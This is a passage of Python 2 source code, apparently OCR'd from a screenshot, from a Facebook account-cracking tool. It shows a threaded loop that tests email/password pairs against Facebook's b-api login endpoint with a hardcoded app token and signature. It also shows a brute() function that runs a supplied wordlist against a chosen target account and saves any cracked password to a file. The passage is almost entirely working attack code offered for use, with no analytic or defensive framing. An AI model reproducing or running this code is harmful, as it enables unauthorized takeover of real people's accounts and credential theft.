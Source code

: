                							    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
               							    q = json.load(data)
               							    if 'access_token' in q:
           							        print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass6
               							    else:
                   						        if 'www.facebook.com' in q['error_msg']:
                       							    print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass6

        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print '\n\x1b[1;91m[+] \x1b[1;97mFinish'
    raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
    super()


def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print '╔' + 52 * '\x1b[1;97m\xe2\x95\x90'
        try:
            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print 52 * '\x1b[1;97m\xe2\x95\x90'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                        print 52 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                    else:
